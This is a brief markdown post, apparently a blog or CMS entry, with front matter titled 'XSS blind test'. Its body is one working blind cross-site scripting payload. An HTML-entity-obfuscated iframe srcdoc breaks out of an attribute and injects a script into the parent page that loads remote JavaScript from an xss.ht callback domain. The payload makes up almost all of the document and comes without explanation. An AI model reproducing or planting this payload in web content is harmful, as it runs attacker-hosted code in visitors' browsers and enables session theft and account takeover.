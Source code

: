 ```yaml
---
title: XSS blind test
date: 2021-06-30T19:07:18.316Z
description: blind via iframe
image: null
---
```

"><iframe srcdoc="&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#118;&#97;&#114;&#32;&#97;&#61;&#112;&#97;&#114;&#101;&#110;&#116;&#46;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#114;&#101;&#97;&#116;&#101;&#69;&#108;&#101;&#109;&#101;&#110;&#116;&#40;&#34;&#115;&#99;&#114;&#105;&#112;&#116;&#34;&#41;&#59;&#97;&#46;&#115;&#114;&#99;&#61;&#34;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;b3efxss.xss.ht&#34;&#59;&#112;&#97;&#114;&#101;&#110;&#116;&#46;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#98;&#111;&#100;&#121;&#46;&#97;&#112;&#112;&#101;&#110;&#100;&#67;&#104;&#105;&#108;&#100;&#40;&#97;&#41;&#59;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;">